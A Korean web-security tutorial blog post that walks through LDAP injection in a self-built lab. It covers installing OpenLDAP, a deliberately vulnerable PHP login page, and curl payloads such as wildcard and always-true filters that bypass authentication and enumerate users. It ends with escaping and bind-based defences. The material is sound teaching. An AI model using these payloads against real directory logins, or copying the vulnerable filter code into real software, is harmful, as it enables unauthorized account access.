


## 들어가며

[12. 코드 인젝션 심화 ①](/posts/websec-12-code-injection-advanced/)에서 SSI·XPath·XXE를 다뤘습니다. 이 글은 그중 **별도 서버 구축이 필요한 LDAP 인젝션**을 **LDAP 서버 설치부터 한 단계씩** 따라 할 수 있도록 구성했습니다.

> LDAP 인젝션은 [01 SQLi](/posts/websec-01-sql-injection/)와 똑같은 발상입니다. 단지 표적이 SQL 데이터베이스가 아니라 **LDAP 디렉터리 서비스**일 뿐입니다. 기업의 사번·조직도·통합 로그인(SSO)이 보통 LDAP에 저장되므로, 한 번 뚫리면 전사 계정에 영향을 줍니다.
{: .prompt-info }

---

## 실습 환경

| 구분 | 내용 |
|---|---|
| 공격자 | Kali Linux (192.168.56.10) — curl, 브라우저 |
| 대상 | Ubuntu (192.168.56.30) — Apache/PHP + OpenLDAP(slapd) |
| 추가 설치 | `slapd ldap-utils php-ldap` |

> 모든 실습은 본인 소유의 격리된 랩에서만 수행합니다. 실습 후 8장의 정리(cleanup) 절차로 LDAP 서버까지 제거하세요.
{: .prompt-warning }

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A05:2025 – Injection** (구 A03:2021) |
| CWE | CWE-90 (LDAP 쿼리에 사용되는 특수 요소의 부적절한 처리) |
| 영향 | 인증 우회, 디렉터리 데이터(계정·조직) 무단 조회·필터 변조 |
| 한 줄 핵심 | 입력이 **LDAP 검색 필터 문법**(`* ( ) \| &`)으로 해석되어 필터가 변조됨 |

---

## 1. 배경 지식 — LDAP과 검색 필터

**LDAP(Lightweight Directory Access Protocol)** 는 사용자·조직 정보를 **트리 구조**로 저장하는 디렉터리 서비스입니다. 각 항목은 `dn`(distinguished name)으로 식별됩니다.

```
dc=lab,dc=local
└── ou=people
    ├── uid=alice  (userPassword: alicepw)
    └── uid=admin  (userPassword: s3cr3t!)
```

로그인 시 애플리케이션은 보통 다음과 같은 **검색 필터**를 만듭니다.

```
(&(uid=<입력>)(userPassword=<입력>))
```

`&` 는 AND, `|` 는 OR, `*` 는 와일드카드(임의 문자)입니다. 입력을 검증 없이 끼워 넣으면 공격자가 이 문법을 주입해 **항상 참인 필터**로 바꿔 인증을 우회합니다.



---

## 2. 실험 환경 구축 (Step by Step)

### 2.1 LDAP 서버·PHP 모듈 설치

**1단계 — 패키지 설치 (Ubuntu)**

```bash
sudo apt update
sudo DEBIAN_FRONTEND=noninteractive apt install -y slapd ldap-utils php-ldap
sudo systemctl enable --now slapd
sudo systemctl restart apache2
```

**2단계 — LDAP 도메인 설정**

```bash
sudo dpkg-reconfigure slapd
```

대화형 프롬프트에서 다음과 같이 응답합니다.

| 질문 | 입력 |
|---|---|
| Omit OpenLDAP server configuration? | **No** |
| DNS domain name | `lab.local` |
| Organization name | `lab` |
| Administrator password | `admin` (실습용) |
| Database backend | MDB (기본) |
| Remove the database when slapd is purged? | No |

> 설정한 도메인 `lab.local` 은 **베이스 DN `dc=lab,dc=local`** 이 됩니다. 관리자 계정은 `cn=admin,dc=lab,dc=local` 입니다.
{: .prompt-tip }

**3단계 — 설치 확인**

```bash
sudo systemctl status slapd --no-pager     # active (running) 확인
ldapsearch -x -b "dc=lab,dc=local"          # 베이스 DN 조회(아직 사용자 없음)
```

### 2.2 테스트 사용자 등록

**1단계 — LDIF 파일 작성**

```bash
cat > /tmp/users.ldif <<'EOF'
dn: ou=people,dc=lab,dc=local
objectClass: organizationalUnit
ou: people

dn: uid=alice,ou=people,dc=lab,dc=local
objectClass: inetOrgPerson
cn: alice
sn: kim
uid: alice
userPassword: alicepw

dn: uid=admin,ou=people,dc=lab,dc=local
objectClass: inetOrgPerson
cn: admin
sn: root
uid: admin
userPassword: s3cr3t!
EOF
```

**2단계 — 디렉터리에 추가**

```bash
ldapadd -x -D "cn=admin,dc=lab,dc=local" -w admin -f /tmp/users.ldif
```

**3단계 — 등록 확인**

```bash
ldapsearch -x -b "ou=people,dc=lab,dc=local" "(uid=alice)"
# → dn: uid=alice,ou=people,dc=lab,dc=local 가 보이면 성공
```

### 2.3 취약한 로그인 페이지 작성

```bash
sudo tee /var/www/html/ldap_login.php >/dev/null <<'EOF'
<?php
// [의도적 취약] 입력값을 LDAP 필터에 그대로 삽입
$user = $_POST['user'] ?? '';
$pass = $_POST['pass'] ?? '';

$ldap = ldap_connect("ldap://127.0.0.1");
ldap_set_option($ldap, LDAP_OPT_PROTOCOL_VERSION, 3);
ldap_bind($ldap);   // 익명 바인드

$filter = "(&(uid=$user)(userPassword=$pass))";   // ← 취약 지점
$res = ldap_search($ldap, "ou=people,dc=lab,dc=local", $filter);
$cnt = ldap_count_entries($ldap, $res);

echo $cnt > 0 ? "로그인 성공 (matched: $cnt)" : "로그인 실패";
?>
EOF
```

> slapd 기본 설정에서 `userPassword` 는 평문 비교가 가능합니다. 실제 환경은 해시로 저장하지만, 본 실습은 인젝션 **논리** 시연이 목적이므로 평문 비교로 단순화했습니다.
{: .prompt-info }

---

## 3. 점검 실습 (Step by Step)

### 3.1 정상 로그인 확인

```bash
# 올바른 자격증명
curl -s -X POST http://192.168.56.30/ldap_login.php -d "user=alice&pass=alicepw"
# → 로그인 성공 (matched: 1)

# 틀린 비밀번호
curl -s -X POST http://192.168.56.30/ldap_login.php -d "user=alice&pass=wrong"
# → 로그인 실패
```

### 3.2 인증 우회 (KISA Step 1)

**방법 A — 와일드카드로 비밀번호 무력화**

```bash
curl -s -X POST http://192.168.56.30/ldap_login.php --data-urlencode "user=alice" --data-urlencode "pass=*"
```

`userPassword=*` 는 "비밀번호가 무엇이든 매칭"을 의미하므로, **비밀번호 없이 로그인 성공**이 나오면 취약입니다.

**방법 B — 필터를 통째로 항상 참으로 (KISA 대표 페이로드)**

```bash
curl -s -X POST http://192.168.56.30/ldap_login.php \
  --data-urlencode 'user=admin*)(|(userPassword=*)' --data-urlencode "pass=x"
```

조립되는 필터는 다음과 같이 변조됩니다.

```
(&(uid=admin*)(|(userPassword=*))(userPassword=x))
       ↑ admin 으로 시작하는 계정    ↑ OR: 비밀번호 아무거나
```

`matched: 1` 이상으로 **admin 계정에 비밀번호 없이 매칭**되면 취약입니다.

| 판단 | 기준 |
|---|---|
| 양호 | 입력이 이스케이프되어 변조 필터가 매칭되지 않음(로그인 실패) |
| 취약 | `*` / `*)(|(...))` 로 인증 우회·임의 계정 조회 가능 |

### 3.3 (심화) 사용자 열거

```bash
# uid 가 a 로 시작하는 계정이 있는지
curl -s -X POST http://192.168.56.30/ldap_login.php --data-urlencode "user=a*" --data-urlencode "pass=*"
```

`*` 와일드카드로 존재하는 계정 패턴을 추려낼 수 있습니다.

---

## 4. 조치

### 4.1 입력 화이트리스트 + LDAP 이스케이프

가장 확실한 방어는 **`ldap_escape()`(PHP 5.6+)로 필터 메타문자를 이스케이프**하는 것입니다.

```php
<?php
// 안전: 필터용 이스케이프 + 화이트리스트
$user = $_POST['user'] ?? '';
$pass = $_POST['pass'] ?? '';

// 1) 화이트리스트: 영문/숫자만 허용
if (!preg_match('/^[a-zA-Z0-9]+$/', $user)) { exit("허용되지 않은 입력"); }

// 2) LDAP 필터 이스케이프
$user = ldap_escape($user, "", LDAP_ESCAPE_FILTER);
$pass = ldap_escape($pass, "", LDAP_ESCAPE_FILTER);

$filter = "(&(uid=$user)(userPassword=$pass))";
?>
```

`ldap_escape()` 는 메타문자를 16진 표기로 바꿉니다.

| 문자 | 치환 | 문자 | 치환 |
|---|---|---|---|
| `\` | `\5c` | `*` | `\2a` |
| `(` | `\28` | `)` | `\29` |
| `=` | `\3d` | `NUL` | `\00` |

### 4.2 추가 방어

1. **비밀번호는 필터로 비교하지 말 것** — `userPassword`를 필터에 넣지 말고, 먼저 `uid`로 사용자를 찾은 뒤 그 사용자의 `dn`으로 **bind 시도**(LDAP bind 인증)해서 검증
2. 웹 방화벽에 LDAP 특수문자(`( ) * \ | &`) 룰셋 적용
3. 익명 바인드·과도한 읽기 권한 제한

```php
// 권장 패턴: uid 검색 → 찾은 dn 으로 bind (비밀번호를 필터에 넣지 않음)
$res = ldap_search($ldap, "ou=people,dc=lab,dc=local", "(uid=$user)");
$entry = ldap_first_entry($ldap, $res);
$userDn = ldap_get_dn($ldap, $entry);
$ok = @ldap_bind($ldap, $userDn, $pass);   // 비밀번호는 bind 로만 검증
echo $ok ? "로그인 성공" : "로그인 실패";
```

---

## 5. 정리



LDAP 인젝션은 SQLi와 동일한 "입력이 쿼리 문법으로 해석되는" 문제이며, 표적이 디렉터리 서비스라는 점만 다릅니다. **필터 메타문자 이스케이프 + 화이트리스트 + bind 인증**이 핵심입니다.

---

## 6. 정보보안기사 시험 포인트

| 구분 | 꼭 외울 것 |
|---|---|
| **진단** | `user=*`(와일드카드), `*)(\|(userPassword=*)` (항상 참 필터) |
| **메타문자** | `* ( ) \ \| &` 이스케이프(`\2a` `\28` `\29` ...) |
| **방어** | `ldap_escape()` + 화이트리스트, 비밀번호는 **bind 로 검증** |

---

## 7. 출처 및 참고 자료

- KISA, 「주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드」 — Web Application(웹) > 코드 인젝션 > LDAP 인젝션
- OWASP — LDAP Injection Prevention Cheat Sheet — <https://cheatsheetseries.owasp.org/cheatsheets/LDAP_Injection_Prevention_Cheat_Sheet.html>

---

## 8. 정리 (cleanup)

실습이 끝나면 LDAP 서버와 취약 페이지를 제거합니다.

```bash
# 취약 페이지 삭제
sudo rm -f /var/www/html/ldap_login.php /tmp/users.ldif

# LDAP 서버 완전 제거(다른 용도로 안 쓸 경우)
sudo apt purge -y slapd ldap-utils
sudo apt autoremove -y
# php-ldap 만 남겨도 무방. 필요 시: sudo apt purge -y php-ldap && sudo systemctl restart apache2
```

> **⚠ 합법성**: LDAP은 실제 기업 인증의 핵심 인프라입니다. 본 실습은 반드시 격리된 랩에서만 수행하세요.
{: .prompt-danger }
